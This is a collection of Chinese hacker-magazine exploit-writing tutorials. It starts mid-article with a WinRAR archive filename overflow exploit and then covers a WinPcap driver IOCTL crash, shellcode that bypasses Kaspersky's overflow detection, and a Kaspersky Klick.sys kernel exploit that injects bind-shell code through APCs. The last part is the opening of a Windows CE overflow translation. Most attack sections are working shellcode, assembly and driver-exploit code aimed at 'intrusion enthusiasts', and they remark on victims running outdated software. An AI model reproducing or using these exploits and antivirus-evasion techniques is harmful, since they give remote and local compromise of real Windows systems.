  memset(dir.Directory + i, 0x01 + i % 254, 1);
...
DosHeader dh;
dh.ExHeaderId = 0x40;
dh.FileAttr = 0x10;
...
CommHeader ch;
ch.ExHeaderId = 0x00;
ch.CRCHeader = 0xEC89;
...
LBaseHeader2 part2;
part2.BaseHeaderSize = 0xFF;
```

## 尝试利用

接下来就是溢出点的定位，这里就略过这一步，不熟悉的读者可以自行查阅黑防以前的文章。溢出点就在 `part2.filename[20]` 的地方，将这个地方覆盖成经典的 JMP ESP 地址 `0x7FFA4512`，EIP 就会跳回堆栈，后面可以跟 ShellCode。因为文件名长度总共就 `0xFF-25=230` 字节，再减去 4 字节的返回地址，就剩下了 226 字节，也就是 ShellCode 最好短于 226 字节。但是这只是我的猜测，事实上这个文件名只能容纳 26 字节，如图 2 所示。文件名里面我填充的是 `0x90`，DirHeader 里面填充的是 `0x41`，图中两者的分界点很明显。


图 2

```c
memset(part2.filename,0x90,0xFF-25);
memcpy(part2.filename + 20, &overflowpoint,4);
// 覆盖溢出点为 0x7FFA4512
memcpy(part2.filename + 24, searchcode, sizeof(searchcode));

memset(dir2.Directory,0x41,1020);
memcpy(dir2.Directory + 351, "\x85",1);
// 放置 ShellCode 开始标记，下面会用到
memcpy(dir2.Directory + 352, shellcode, sizeof(shellcode));
```

万一 ShellCode 超长了问题也不大，可以放到下面的 DirHeader 里面，或者就是文件名里面放一个 Egg-Hunt 的 ShellCode，让它搜索放在 Dir2 里的大 ShellCode 即可。这个漏洞有一点特殊，放在 Dir 里面的 ShellCode 中不允许出现 0xFF，所有的 0xFF 都会被转换成 0x5C，但是 ShellCode 几乎不可避免会有 0xFF，很多跳转指令都会用到，如图 3 所示。


图 3

我使用的下载执行的 ShellCode 就是放在那里的，解码头中有 3 个连续的 0xFF。所幸其它地方没有，不然更麻烦。读者可以参考我的做法，方便填充自己功能更为强大的 ShellCode。以下是放在 filename 中的负责搜索的大 ShellCode，这里可以有 0xFF。

```asm
asm {
  mov edi,esp      // 从当前栈地址开始往下搜索 ShellCode
  mov al,0x65      // 避免里面出现 0x85，esp 是低于当前 EIP 的
  add al,0x20
search:
  Scasb            // 比较 eax 和 edi
  jz over
  jmp search
over:
  push 03
  pop ecx
  mov dl,0x14
ad:
  add byte ptr [edi+edx],0xA3
  // 将 ShellCode 解码头出现的 3 个 0x5C 加上 A3 还原成 0xFF
  inc edx
  loop ad
  jmp edi          // 跳转至 ShellCode
}
```

这也算是这个漏洞利用的唯一一个难点，对于聪明的读者应该也算不上什么，这里我只是简单使用了一种。对于 0xFF 比较多的情况，感兴趣的读者还可以用其它的方法：一是搜索堆栈中未被转换的原始 ShellCode；二是编写一个短小的搜索代码还原其中的 0xFF；三是用短小的 ShellCode 从文件中读出大 ShellCode 至内存再执行。小 ShellCode 如果大于 26 字节可以放在 Dir2 里面，只要不出现 0xFF 和 0x00 即可。现在重新生成一个压缩包，测试成功；如图 4 所示。


图 4

完整的利用代码可以在黑防官方网站下载到，读者朋友可以自行修改。本文只是一个教学例子，所以 ShellCode 使用的是下载执行的，这在实际利用中有很大的局限性：一是面临防火墙的拦截，WinRAR 默认是不允许访问网络的；二是这个 ShellCode 会被大部分的 HIPS 检测到缓冲区溢出的存在，卡巴也能。市面上大部分的 HIPS 都是通过 Hook 了一些关键函数，如 GetProcAddress、LoadLibrary 等，检测其是否运行在栈区来判断是否发生了缓冲区溢出。

事实上绕过并不是不可能。以后几期的黑防会有这样的文章，还是以 WinRAR 作为例子，请读者朋友耐心等待。另外，Dir2 里有个 CRC 校验值，如果校验正确的话，WinRAR 是没有出错框的，再加上还原正常压缩包再打开的 ShellCode，就可以杀人于无形了。这个漏洞只对 WinRAR 3.0~3.6 beta6 有效，但是国内用户普遍安全意识很差，还有很多人在使用旧版本的 WinRAR。

本来想对这个漏洞的成因进行代码层的分析，考虑到大多数读者对此可能没有兴趣，另外漏洞的成因也很简单，只是未对文件名和目录名作长度检查而导致的，所以我这就略过了漏洞的成因分析。网上能找到一个英文的分析文档，感兴趣的读者可以自行搜索。

## 小结

本文介绍了针对未发布 POC 的情况下进行构造利用的一些方法和心得，并给了相关实例。希望对感兴趣的朋友能起到抛砖引玉的作用。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正，衷心祝愿大家暑假快乐。

---

适合读者：入侵爱好者、溢出爱好者  
前置知识：缓冲区溢出基本原理

本文：菜鸟版 Exploit 编写指南之三十九

## WinPcap 驱动噩梦参数漏洞分析

文／图 gyzy［江苏大学信息安全系&EST］

WinPcap（Windows Packet Capture）是 Windows 平台下一个免费、公共的网络访问系统，它为 Win32 应用程序提供了访问网络底层的能力。WinPcap 不能阻塞、过滤或控制其他应用程序数据报的收发，它仅仅只是监听共享网络上传送的数据报。它提供了以下的各项功能，这些功能均有助于以太网数据流监视软件功能的实现。

- 捕获原始数据报，包括在共享网络上各主机发送/接收的以及相互之间交换的数据报；
- 在数据报发往应用程序之前，按照自定义的规则将某些特殊的数据报过滤掉；
- 在网络上发送原始的数据报；
- 收集网络通信过程中的统计信息。

WinPcap 有一个致命的弱点，就是允许非管理员组的用户使用它的驱动程序。假如管理员使用过 Ethereal 等使用 WinPcap 的抓包工具，并且驱动程序没有被手动卸载，那么就可能被恶意利用，比如非授权嗅探，甚至蓝屏当机。

黑防在以前的几期杂志中已经介绍过通过驱动进行本地提权的相关概念，这里就不再赘述了。WinPcap 的驱动 npf.sys 在处理 0x2347 号 IOCTL 时没有对参数进行合法性验证，导致可以任意修改内存，但是由于覆盖的内容总是为 0，所以传递一个高 2GB 中不可写地址的话，就能导致蓝屏当机。

## Ring0 与 Ring3 的通信

在 DOS 操作系统中，应用程序可以直接与硬件打交道，包括 I/O 端口读写、中断请求与响应以及 DMA 操作等。这种对硬件过于直接的操作方式给软件设计提供了一定的便利，但也有它自身的一些缺点。首先，一些非法操作有可能改写某些硬件寄存器的内容，导致操作系统崩溃，从而使操作系统变得不安全、性能不稳定。其次，应用程序的可移植性变差。为了保证操作系统的安全性和稳定性以及应用程序的可移植性，Windows 操作系统不允许应用程序直接访问系统的硬件资源，而是必须借助于相应的设备驱动程序。

设备驱动程序可以直接操作硬件，如果应用程序和设备驱动程序之间实现了双向通信，也就达到了应用程序控制底层硬件设备的目的。它们之间的通信包括两个方面：一方面是应用程序传送给设备驱动程序的数据，另一方面是设备驱动程序发送给应用程序的消息。前者的实现较容易，通过 CreateFile() 函数获取设备驱动程序的句柄后，就可以使用 Win32 函数，如 DeviceIoControl()、ReadFile() 或 WriteFile() 等实现应用程序与设备驱动程序之间的通信。

##### 漏洞分析

milw0rm 上公布了 PoC 代码，不过看的人比较费解，在 VC 中报了 10 个错误，都是语法上的小问题，还有错误的地方，在获取 ntkrnlpa.exe 加载基址的函数中：

```c
if (strcmp(lpBaseName, "ntoskrnl.exe")) {
    NtosBase = lpImageBase[i];
    printf("NTOSKRNL Base found at %p\n", NtosBase);
    break;
}
```

其中的比较函数居然用了 Win2k 的 ntoskrnl.exe，而在注释中说明该 PoC 是针对 XP 的，也不知道作者是疏漏还是故意的。修正了这个小 Bug 之后，代码在我的 Windows XP 下顺利运行了，不过立刻蓝屏了，如图 1 所示。

为了准确定位出错的代码，在运行 POC 之前有……


```text
KeBugCheckEx+0x1b
MmAccessFault+0x8e7
KiTrap0E+0xcc
WARNING: Stack unwind information not available.
...
STACK_COMMAND: kb
FOLLOWUP_IP: npf!fdd
SYMBOL_NAME: npf+fdd
MODULE_NAME: npf
IMAGE_NAME: npf.sys
FAILURE_BUCKET_ID: 0xBE_npf+fdd
```

图 1

几件事情要先完成，在“我的电脑->属性->启动和故障恢复”中的“写入调试信息”选择“完全内存转储”，这样 Windows 会保存 Crash Dump，以便于用 WinDbg 调试出错的位置。设置好 WinDbg 的 Symbol Path，重启后使用 WinDbg 的 Open Crash Dump 加载 `C:\Windows` 下的 `MEMORY.DMP`。等到出现如图 2 所示的内容后，输入“!analyze -v”就能看到驱动出错的具体信息了。


图 2

```text
DEFAULT_BUCKET_ID: INTEL_CPU_MICROCODE_ZERO
BUGCHECK_STR: 0xBE
PROCESS_NAME: winpcap.exe
TRAP_FRAME: f9001ba4
...
npf!0xfdd:
  faf0bfdd 89480c  mov dword ptr [eax+0Ch], ecx
LAST_CONTROL_TRANSFER: from 8051cf07 to 804f9925
STACK_TEXT:
  f9001b2c 8051cf07 ...
```

一目了然，`0xfaf0bfdd` 处的指令 `mov dword ptr [eax+0Ch], ecx` 试图写入只读内存导致了蓝屏。接下来就是在 IDA 中静态分析。

```asm
.text:00010FCC push 10h
.text:00010FCE pop edx
.text:00010FCF cmp [esi+4], edx
.text:00010FD2 jb loc_110C4
.text:00010FD8 mov eax, [edi+3Ch]
.text:00010FDB xor ecx, ecx
.text:00010FDD mov [eax+0Ch], ecx
.text:00010FE0 mov eax, [edi+3Ch]
.text:00010FE3 mov [eax], ecx
.text:00010FE8 mov [eax+4], ecx
.text:00010FEB mov eax, [edi+3Ch]
.text:00010FEE mov [eax+8], ecx
```

0x00010FDD、0x00010FE3、0x00010FE8 和…0x00010FEE 四条语句导致内存的 16 字节被覆盖。由于前面的 `xor ecx, ecx`，所以导致 ecx 不可控制，不然还可以以 Ring0 权限执行任意代码。然而在原作者给出的 POC 中好像是可以执行代码的。我使用的 WinPcap 是 3.1 版本（是 ethereal-setup-0.10.14 中自带的），运行一次 ethereal 以后驱动就被加载进内核了。不知道是版本不同的问题，还是其他问题，因为显然上面的代码中 ecx 是不可控制的。

假如 ecx 可控，那么可以通过覆盖 SSDT 中的函数地址，然后在 Ring3 下调用相应的函数来执行 ShellCode。Ring0 下的 ShellCode 又和 Ring3 下的 ShellCode 有很大的不同，在内核态下不像用户态下有现成的 API 可以利用，所以这也算一个研究得比较少的方向。在下期文章中，我将结合可利用漏洞详细讲解一下如何利用这些驱动程序执行比较实用的 ShellCode。

## 小结

通过这次漏洞分析，我们知道了如何调试蓝屏的转储文件，并分析了漏洞产生的原因，了解了用户态下的程序和内核态的驱动是如何进行通信的。在这里权当抛砖引玉，希望能给广大黑防读者带来一点帮助，如有错误纰漏，欢迎指正。

适合读者：溢出爱好者  
前置知识：汇编语言、ShellCode 基本原理

## 菜鸟版《Exploit 编写指南》之四：编写绕过卡巴主动防御的 ShellCode


文／图 gyzyl [江苏大学信息安全系&EST]

现在主动防御的概念已经深入人心，市面上已经有不少安全产品加入了防范缓冲区溢出的功能，典型代表就是 McAfee 和卡巴斯基。作为一个攻击者，就得想方设法地绕过，假如一个 0Day 被拦截的话，就前功尽弃了。这里我就以卡巴斯基为例子，详细讲一下如何尽量少地修改原 ShellCode 来穿透卡巴斯基的壁垒。

### 知己知彼

要想绕过卡巴斯基，必须首先了解卡巴是怎么判断溢出发生的。卡巴通过挂接 GetProcAddress、LoadLibraryA、LoadLibraryW 等函数，根据返回地址是否在栈中来判断是否发生了栈溢出。卡巴斯基 Hook 的 GetProcAddress 的代码如图 1 所示，其中的 `jmp` 指令是跳到了卡巴斯基的驱动中，由此大致可以猜测判断是否溢出的代码就在其中。判断的关键代码如下。

```asm
lkd> u f287be8f
f287be8f 8b442404    mov eax,dword ptr [esp+4]
```

```asm
CPU 线程数据窗口（反汇编）

7C883EF8 55            PUSH EBP
7C883EF9 8BEC          MOV EBP,ESP
7C883EFB 90            NOP
7C883EFD 5D            POP EBP
7C883FFE E9 99...      JMP F287BE8F
...
```

图 1

```asm
f287be93 56            push esi
f287be94 8b74240c      mov esi,dword ptr [esp+0Ch]
f287be98 6a00          push 0
f287be9a 56            push esi
f287be9b 680b...       push 0F287BE80h
f287bea0 8d4c2414      lea ecx,[esp+14h]
f287bea4 50            push eax
...
lkd> u f287b0b0
f287b0b0 55            push ebp
f287b0b1 8bec          mov ebp,esp
f287b0b3 83ec24        sub esp,24h
f287b0b6 64a104000000  mov eax,dword ptr fs:[00000004h]
```

### 卡巴斯基进程出栈研究

```asm
f287b0bc 8945f8        mov dword ptr [ebp-8],eax
f287b0bf 64a108000000  mov eax,dword ptr fs:[00000008h]
f287b0c5 8945fc        mov dword ptr [ebp-4],eax
f287b0c8 8b4508        mov eax,dword ptr [ebp+8]
```

其中，f287b0d4 处的几条比较指令可能就是判断溢出与否的关键，上面有两条指令也特别值得注意：

```asm
mov eax,dword ptr fs:[00000004h]
mov eax,dword ptr fs:[00000008h]
```

fs 寄存器指向的是 TEB，TEB 中的第一项数据结构是 `_NT_TIB`，其结构如下。

```c
typedef struct _NT_TIB {
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList;
  PVOID StackBase;
  PVOID StackLimit;
  PVOID SubSystemTib;
  union {
    PVOID FiberData;
    ULONG Version;
  };
  PVOID ArbitraryUserPointer;
  struct _NT_TIB *Self;
} NT_TIB;
```

fs:[4] 和 fs:[8] 分别是当前线程的栈基址和栈顶。现在思路就比较明朗了，卡巴斯基就是通过检测 GetProcAddress 等关键 API 的返回地址是否处于栈中来判定栈溢出的发生。

### 针锋相对

既然知道了卡巴斯基是如何检测的，那么绕过也就不难了。既然卡巴斯基是检测 API 的返回地址，那么我们就可以通过迂回的方式来绕过卡巴斯基的检测，具体实现如下。

- 1. 修改 TEB 中 fs:[4] 和 fs:[8] 的值，使卡巴斯基认为返回地址不在栈中。文中提到在 Call 之前写入类似 `mov dword ptr fs:[4],0x0012FFFF` 与 `mov dword ptr fs:[8],0x0012FFFF`。
- 2. 在内存中找一个相对固定且可写可执行的地址，写入 `push 返回地址; ret` 一类指令，再将函数返回地址指向其以绕过检测。

具体实现如下。在原来调用 API 的地方，如 `call dword ptr [edi-4]`，使用如下方法来代替。

```asm
mov edx,dword ptr [edi-4]
call gcall

// 绕过缓冲区溢出检查的 call
// 输入参数：
// edx 函数地址
// 0x7C884000
gcall:
  pop eax
  mov ecx,0x7C884000
  push ecx
  mov byte ptr [ecx],0x68
  mov dword ptr [ecx+1],eax
  mov byte ptr [ecx+5],0xC3
  jmp edx
```

0x7C884000 是 Kernel32 数据段的地址，可用其他等价地址替换。这样修改原有 ShellCode 比较方便，只需要在关键函数处调用即可；若利用 Hash 比较查找 API 地址，则在 LoadLibrary 处调用即可。

### 测试

测试中使用了三段不同的 ShellCode，分别是方法 2（绕过）、方法 1（失败）和未绕过的 ShellCode。对检测到的缓冲区溢出，卡巴斯基会提示，如图 2 所示。


使用方法 2 的 ShellCode 则顺利绕过了卡巴斯基。这里不截图，仅为简单 MessageBox 示例。

### 小结

其实绕过缓冲区溢出检测的方法不止这一种。只要搞清楚检测原理，绕过并不困难。若能够不调用 GetProcAddress 和 LoadLibrary 则更好；DLL 句柄可通过 PEB 获得，函数地址可通过 Hash 比较获得。最后希望本文对大家有所帮助，欢迎指正。

适合读者：溢出爱好者  
前置知识：汇编语言、Windows 内核基本原理

## 菜鸟版 Exploit 编写指南之四十二：从卡巴漏洞看内核模式 ShellCode 的编写


文/图 gyzy [江苏大学信息安全系&EST]

在用户态（Ring3）下存在的种种漏洞，在内核态（Ring0）下一样存在，并且有些漏洞在用户态下反而比较少见。比较典型的例子就是 DeviceIoControl 畸形参数这一类的漏洞。用户态的 Exploit 技术是内核 Exploit 技术的基础，假如连用户态下 Exploit 的一些概念还不是很清楚的话，建议读者先了解一下用户态的 Exploit 和 ShellCode 技术。这两者虽然相似，但还是有很大的不同：在内核态下不像用户态下有丰富的 API 接口函数可供调用，并且要求也更高，一不小心就会导致蓝屏。网上有很多介绍驱动本地权限提升漏洞的文章，但对于写可用的 ShellCode 这个问题就都回避了。这次我以卡巴 NDIS-TDI Hook 驱动（Klick.sys）的畸形参数漏洞为蓝本，详细讲述一下如何编写能在内核下运行的 ShellCode。KIS/KAV 6.0.0.0-6.0.0.307 均存在此漏洞，测试的时候注意版本。在开始之前，我们先来介绍一下要用到的背景知识。

DOS 这种实模式操作系统则没有这些概念，其中的所有代码都可被看作运行在核心态。处理器模式从 Ring3 向 Ring0 的切换发生在控制权转移时，有以下两种情况：访问调用门的长转移指令 CALL，访问中断门或陷阱门的 INT 指令。具体的转移细节由于涉及复杂的保护检查和堆栈切换，不再赘述，请参阅相关资料。现代的操作系统通常使用中断门来提供系统服务，通过执行一条陷入指令来完成模式切换。在 Intel x86 上这条指令是 INT，如在 Windows 9X 下是 INT 30（保护模式回调），在 Linux 下是 INT 80，在 Windows NT/2000 下是 INT 2E。用户模式的服务程序（如系统 DLL）通过执行一个 INT XX 来请求系统服务，然后处理器模式将切换到核心态；工作于核心态的相应系统代码将服务于此次请求并将结果传给用户程序。

### 背景知识

Kernel & Userland：386 及以上的 CPU 实现了 4 个特权级模式（Windows 只用到了其中两个），其中特权级 0（Ring0）是留给操作系统代码和设备驱动程序代码使用的，它们工作于系统核心态；而特权级 3（Ring3）则给普通的用户程序使用，它们工作在用户态。运行于处理器核心态的代码不受任何限制，可以自由地访问任何有效地址，进行直接端口访问。而运行于用户态的代码则要受到处理器的诸多检查，它们只能访问映射其地址空间页表项中规定的在用户态下可访问页面的虚拟地址，且只能对任务状态段（TSS）中 I/O 许可位图（I/O Permission Bitmap）中规定的可访问端口进行直接访问（此时处理器状态和控制标志寄存器 EFLAGS 中的 IOPL 通常为 0，指明当前可以进行直接 I/O 的最低特权级别是 Ring0）。以上的讨论只限于保护模式操作系统，像 DOS 这种实模式操作系统则没有这些概念。

### Native API

本机 API 是除了 Win32 API 之外，NT 平台开放的另一个接口。本机 API 运行在 Ring0 层，拥有没有限制的操作权限，因此微软出于安全考虑并没有发布支持这种应用的开发方法。Win32 API 中的所有调用最终都转向了 ntdll.dll，再由它转发至 ntoskrnl.exe。ntdll.dll 是本机 API 用户模式的终端，真正的接口在 ntoskrnl.exe 里完成。事实上，内核模式的驱动大部分都在调用这个模块。ntdll.dll 的主要作用就是让内核函数的特定子集可以被用户模式下运行的程序调用。ntdll.dll 通过软件中断 `int 2Eh` 进入 ntoskrnl.exe，也就是通过中断门切换 CPU 特权级。

### Windows 的 APC 机制

APC 是“异步过程调用（Asynchronous Procedure Call）”的缩写。从大体上说，Windows 的 APC 机制相当于 Linux 的 Signal 机制，实质上是一种对于应用软件（线程）的“软件中断”机制。但是读者将会看到，APC 机制至少在形式上与软件中断机制还是有相当的区别，而称之为“异步过程调用”确实更为贴切。APC 与系统调用是密切联系在一起的，在这个意义上 APC 是系统调用界面的一部分。然而 APC 又与设备驱动有着很密切的关系，例如，ntddk.h 中提供“写文件”系统调用 ZwWriteFile()，即 NtWriteFile() 的调用接口。

```asm
.text:0001174E  jz loc_1195E
.text:00011754  cmp eax, 8005210Ch
.text:00011759  jz loc_1194A
.text:0001175F  cmp eax, 80052110h
.text:00011764  jz loc_117F8
```

此处代码是驱动的 Dispatch 例程中对 IO 代码处理的一个 Switch Case 判断，看看 loc_117F8 处的处理代码。

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwWriteFile(
  IN HANDLE FileHandle,
  IN HANDLE Event OPTIONAL,
  IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
  IN PVOID ApcContext OPTIONAL,
  OUT PIO_STATUS_BLOCK IoStatusBlock,
  IN PVOID Buffer,
  IN ULONG Length,
  IN PLARGE_INTEGER ByteOffset OPTIONAL,
  IN PULONG Key OPTIONAL
);
```

```asm
.text:000117F8  loc_117F8:
.text:000117F8  mov esi, [ebp+arg_4]
.text:000117FB  cmp esi, ebx
.text:000117FD  jz loc_119B0
.text:00011803  cmp [ebp+arg_8], 8
.text:00011807  jb loc_119B0
.text:0001180D  mov eax, [ecx]
.text:0001180F  push ebx
.text:00011810  call dword ptr [eax+14h]
.text:00011813  mov edi, eax
.text:00011815  cmp edi, ebx
.text:00011817  jz loc_1199F
.text:0001181D  mov eax, [edi]
.text:0001181F  mov ecx, edi
.text:00011821  call dword ptr [eax+4]
.text:00011824  push dword ptr [esi+4]
.text:00011827  mov ecx, edi
.text:00011829  push dword ptr [esi]
.text:0001182B  call sub_15306
```

这里有个参数 ApcRoutine，是一个函数指针。什么时候要用到这个指针呢？原来，文件操作有“同步”和“异步”之分。普通的写文件操作是同步写，启动这种操作的线程在内核进行写文件操作期间被“阻塞（blocked）”而进入“睡眠”，直到设备驱动完成了操作以后才又将该线程“唤醒”而从系统调用返回。但是，如果目标文件是按异步操作打开的，即在通过 W32 的 API 函数 CreateFile() 打开目标文件时把调用参数 dwFlagsAndAttributes 设置成 FILE_FLAG_OVERLAPPED，那么调用者就不会被阻塞，而是把事情交给内核，不等实际的操作完成就返回了。但是此时要把 ApcRoutine 设置成指向某个 APC 函数。这样，当设备驱动完成实际的操作时，就会使调用者线程执行这个 APC 函数，就像是发生了一次中断。

注意此时的 `[ebp+arg_4]`，也就是 esi，是第二个参数，指向用户提交的 lpInBuffer，请看 DeviceIoControl 的原型。

```c
BOOL DeviceIoControl(
  HANDLE hDevice,
  DWORD dwIoControlCode,
  LPVOID lpInBuffer,
  DWORD nInBufferSize,
  LPVOID lpOutBuffer,
  DWORD nOutBufferSize,
  LPDWORD lpBytesReturned,
  LPOVERLAPPED lpOverlapped
);
```

跟入 sub_15306。

```asm
.text:00015306  push ebp
.text:00015307  mov ebp, esp
.text:00015309  sub esp, 20h
.text:0001530C  push ebx
.text:0001530D  push esi
.text:0001530E  push edi
.text:0001530F  mov esi, ecx
.text:00015311  call sub_1555A
.text:00015316  mov ecx, [ebp+arg_4]
.text:00015319  lea edi, [esi+10h]
.text:0001531C  mov [esi+1ECh], ecx
.text:00015322  push ecx
.text:00015323  lea ecx, [esi+1B8h]
```

##### 漏洞分析

漏洞出现在卡巴的 NDIS-TDI Hook 驱动（Klick.sys）中。该驱动在处理 0x80052110 号 IO 请求时未对参数进行足够的验证，导致非特权用户能够以 Ring0 权限执行任意代码。这种类似的漏洞已经暴露过不少，在定位问题代码的时候可以在 IDA 中直接以文本搜索 80052110，问题代码如下。

```asm
.text:00011740  mov [ebp+var_8], ebx
.text:00011743  jz loc_11988
.text:00011749  cmp eax, 80052108h
```

```asm
.text:00015329 mov [esi+1F0h], eax
.text:0001532F mov [edi], eax
.text:00015331 mov eax, [ebp+arg_0]
.text:00015334 push ecx
.text:00015335 push edi
.text:00015336 mov [esi+1ACh], eax
.text:0001533C call eax
// 00015331处将用户态传进来的指针传到了eax
```

```asm
去掉填充代码
__asm {
  nop
  nop
  nop
  ...
  mov eax, fs:[0x124] ; TEB
  mov esi, [eax+0x44] ; EPROCESS
  ...
}
```

00015331处的语句将用户态下传进来的指针传到了eax寄存器，由于没有做任何参数的有效性检查，导致了可以执行任意代码。

## Exploit编写

现在剩下的就是执行什么代码的问题了，只要把函数指针通过DeviceIoControl传递给驱动即可。由于是Ring0权限，普通的ShellCode就不能使用了，这个时候我们就只能使用背景知识中介绍的本机API。大致实现的方案有两种：一是所有功能都在内核态实现；二是在内核态向用户态插入代码。显然第一种方法不太容易实现，这指的是功能较为复杂的ShellCode，例如下载执行、绑定端口等。只是权限提升的话，网上已经有现成代码。假如ShellCode较为复杂，第2种方法的优势就体现出来了，kernel下的ShellCode只是作为一个loader，负责将Ring3下的ShellCode插入到Ring3下的某个进程中。这里仅介绍第2种方法的实现。

```c
hDevice = CreateFileA("\\\\.\\KELOR",0,0,NULL,3,0,0);
InSize = 0x8;
InBuff[0] = (DWORD)Ring0Shellcode;
dwIOCTL = 0x80052110;
DeviceIoControl(hDevice, dwIOCTL, InBuff, 0x8, (LPVOID)NULL, 0, &junk, NULL);
```

可能有读者会问为什么InBuff的大小是8，在上面驱动的反汇编代码中就能找到答案。剩下就是编写Ring0Shellcode的问题了。Ring0Shellcode主要是完成几个功能，将Usermode的ShellCode拷贝到目标进程，初始化一个APC，将此APC插入到Ring3下的线程中，然后将驱动所在进程挂起，防止其继续执行导致蓝屏。用到的API函数有：ExAllocatePool、KeInitializeApc、KeInsertQueueApc、ZwYieldExecution和KeDelayExecutionThread。

```c
void __declspec(naked) Ring0Shellcode()
{
    // 加入naked关键字避免编译器添加额外逻辑
}
```

```asm
mov eax, ZwYieldExecution // kernel routine ret
push eax // Kernel Mode routine
push edx // NULL
push ebp // 前面找到线程的 ETHREAD
push esi // APC object
mov eax, KeInitializeApc // initialize APC
call eax

xor ecx, ecx
xor edx, edx
xor eax, eax
push eax
push eax
push ebp // ETHREAD
push esi // APC Object
mov eax, KeInsertQueueApc
call eax
mov byte ptr [ebp+0x4a], 0x1

push offset DelayTime
push 0
push 0
mov eax, KeDelayExecutionThread
// 使该线程进入睡眠状态
call eax

NOP
NOP
NOP
NOP
NOP
NOP
NOP
NOP
```

因为这个漏洞是本地溢出，所以获得上述用到的API要简单得多，可以通过在触发漏洞前在用户态下LoadLibrary(ntkrnlpa)获得函数的偏移量 + 内核模块ntkrnlpa的基址的方法获得。

```c
ExAllocatePool=(DWORD)GetProcAddress(base,"ExAllocatePool");
ExAllocatePool=(DWORD)((DWORD)ExAllocatePool-(DWORD)base+(DWORD)kbase);
```

内核模块ntkrnlpa的基址可以调用本机API NtQuerySystemInformation获得，也可以通过其它方法获得。如果是远程溢出的话就稍微要麻烦一点，需要找到ntkrnlpa的基址，分析其导出表来获得上述API函数的地址。原作者将类似ExAllocatePool这些变量都定义成int*型变量，在上述计算中会导致某些API获得的地址不准确，让我蓝屏了很多次，后来在WinDBG下调试，发现原来是函数的地址获得不对。另：在测试的时候有一点要注意，需要关闭DEP，如图1所示。

DEP是数据执行保护，是Windows XP SP2以后新推出的东西。也不知道为什么代码在7FFE0000它也会拦截，可能微软早就对这一区域做出了防范。可以提前OpenProcess，再VirtualAllocEx申请某个地址的内存来绕过DEP。假如是远程溢出的情况可能比较麻烦，有兴趣的读者可以试一下。运行kis.exe之后稍等片刻，可以看到我们的绑定cmd到8080端口的ShellCode已经成功执行了，如图2所示。


图1

##### 总结

这是我第一次尝试写内核Exploit。


图2

写内核Exploit，前后大概调试了三四天。在Kernel的世界里，一个小小的错误都会导致蓝屏。这种通过Kernel Loader来执行ShellCode的方式是目前主流也是较方便的一种实现，读者可以替换POC中的ShellCode来实现自己的功能。对于传统的应用程序安全，大家已经研究得比较透了，而在Ring3下的一些软件安全问题到Ring0下还是存在的，还没有引起大家足够重视。这一块相对来说也可以算一个比较新的领域，在未来可能成为又一个研究热点。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正。

> （文中所涉及的程序或代码，已收录入本期光盘杂志相关栏目；也可到黑防官网论坛下载，详细地址请看公共论坛置顶帖）

适合读者：溢出爱好者

前置知识：ARM汇编语言、Windows CE内核基本原理

## 菜鸟版Exploit编写指南之四十三

## Windows CE缓冲区溢出利用技术

译／llikz


PDA和手机的网络功能越来越强大，因此，与其相关的安全问题也就越来越得到重视。本文展示了一个Windows CE平台上的缓冲区溢出例子，包含了ARM体系、Windows CE操作系统的内存管理、进程和线程的特点；同样，它也给我们展示了如何编写Windows CE平台上的ShellCode，包括一些使用ARM处理器的Windows CE操作系统上解码ShellCode的知识。

## Windows CE概述

Windows CE是PDA和手机上非常流行的嵌入式操作系统。正如其名，它是由微软开发的，因为有着相同的API，Windows平台开发者很容易为Windows CE开发应用程序。这是Windows CE能够流行的一个重要原因。Windows CE 5.0是其最新的一个版本，但是Windows CE .NET却是非常实用的一个版本，本文基于Windows CE .NET平台编写。默认情况下，Windows CE为little-endian（低字节存储在低地址，高字节存储在高地址）模式，支持多处理器。

## ARM体系

ARM处理器是PDA和手机上很流行的处理器芯片，为典型的精简指令集处理器，使用load/store体系，意味着只有load/store指令才能够访问内存，数据处理操作只能在寄存器上使用。ARM体系通常有6个主要的版本，分别为v1到v6。ARM处理器最高支持7种处理器模式，依据ARM体系版本而定，这些模式为用户模式、快中断模式、普通中断模式、管理模式、异常模式、未定义模式和系统模式。系统模式需要ARM体系v4以上版本支持。除了用户模式，其他模式都为特权模式。应用程序通常在用户模式下执行，但是在Pocket PC上，好像所有的应用程序都运行在内核模式，这个问题我们稍后讨论。在ARM体系v3及以上版本，有30个通用32位寄存器、程序计数器、当前程序状态寄存器和5个SPSR，15个通用寄存器只能在一个时刻可见，这取决于当前的处理器状态，可见的通用寄存器为r0到r14。通常情况下，在ARM汇编语言中，r13作为栈指针。在用户模式和系统模式下，r14作为连接寄存器存储子程序调用的返回地址。如果返回地址保存在栈中，它也可以被用作通用寄存器。程序计数器通过r15来访问；在ARM指令集状态下，对于每一个指令，一次增加4个字节，在thumb状态下，增加2个字节。分支指令将目标地址装载到程序计数器PC中，能够使用数据操作指令直接装载PC寄存器。这个特点不同于其他处理器，这对于编写ShellCode非常有用。

## Windows CE内存管理

理解内存管理对于缓冲区溢出利用非常重要。Windows CE内存管理机制不同于其他系统，甚至也不同于Windows系统。Windows CE使用只读存储器和随机存储器。只读存储器存储整个操作系统和捆绑在系统中的应用程序。只读存储器就像一个小型的只读硬盘，其中的数据不需要电源就能保持。XIP是Windows CE .NET的一个新特性，它们直接在ROM中执行而不是装载到RAM中执行。动态链接库代码不占用宝贵的RAM空间，在代码执行前不需要复制到RAM，因此只需要花费很少的时间启动一个应用程序。如果动态链接库存储在目标存储物或Flash存储卡等不能在原来位置执行的空间，才会被复制到RAM中执行。Windows CE系统中的RAM被划分为两个区域：程序内存和对象存储器。

对象存储器就像持久虚拟RAM盘，和PC机上的RAM盘不同，对象存储器可以在系统关机的情况下保持存储文件。RAM中的另一个区域被用来存储程序。程序内存就像个人电脑中的RAM，为运行的应用程序存储堆栈。对象存储器和程序内存的边界是可以调整的，用户能够使用控制面板调整它们之间的界限。

Windows CE是32位操作系统，支持4GB虚拟空间地址，其中高2GB为内核空间，操作系统用来存储自身数据；低2GB空间为用户空间，从0x42000000到0x80000000用于大内存分配，比如内存映像文件、对象存储器。从0到0x42000000被划分为33个slot（槽），每个slot大小为32M，slot0非常重要，用于当前运行的进程，其第一个64KB的空间被操作系统保留。进程代码和数据从0x00010000开始映射，其后为堆栈，动态链接库装载到高地址。

